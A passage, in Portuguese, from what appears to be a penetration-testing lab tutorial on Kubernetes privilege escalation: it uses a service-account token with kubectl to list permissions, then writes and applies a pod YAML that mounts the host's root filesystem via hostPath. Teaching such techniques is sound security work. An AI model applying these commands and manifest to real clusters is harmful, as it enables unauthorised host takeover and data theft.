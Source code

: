 No entanto, podemos usá-lo para nossos propósitos e podemos perguntar aos K8s se temos permissão para executar ações diferentes em vários recursos.

#### Listar Privilégios

```shell-session
cry0l1t3@k8:~$ export token=`cat k8.token`
cry0l1t3@k8:~$ kubectl --token=$token --certificate-authority=ca.crt --server=https://10.129.10.11:6443 auth can-i --list

Resources										Non-Resource URLs	Resource Names	Verbs 
selfsubjectaccessreviews.authorization.k8s.io		[]					[]				[create]
selfsubjectrulesreviews.authorization.k8s.io		[]					[]				[create]
pods											[]					[]				[get create list]
...SNIP...
```

Aqui podemos ver algumas informações muito importantes. Além dos selfsubject-resources `get`, podemos , `create` e `list` pods, que são os recursos que representam o contêiner em execução no cluster.

A partir daqui, podemos criar um arquivo `YAML` que podemos usar para criar um novo contêiner e montar todo o sistema de arquivos raiz do sistema host no diretório `/root` deste contêiner. 

A partir daí, podemos acessar os arquivos e diretórios do sistema host. O `YAML`arquivo pode ter a seguinte aparência:

#### Pod YAML
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: privesc
  namespace: default
spec:
  containers:
  - name: privesc
    image: nginx:1.14.2
    volumeMounts:
    - mountPath: /root
      name: mount-root-into-mnt
  volumes:
  - name: mount-root-into-mnt
    hostPath:
       path: /
  automountServiceAccountToken: true
  hostNetwork: true
```

Uma vez criado, podemos criar o novo pod e verificar se ele está funcionando conforme o esperado.

#### Criando um novo Pod
```shell-session
cry0l1t3@k8:~$ kubectl --token=$token --certificate-authority=ca.crt --server=https://10.129.96.98:6443 apply -f privesc.yaml

pod/privesc created


cry0l1t3@k8:~$ kubectl --token=$token --certificate-authority=ca.crt --server=https://10.129.96.98:6443 get pods

NAME	READY	STATUS	RESTARTS	AGE
nginx	1/1		Running	0			23m
privesc	1/1		Running	0			12s
```
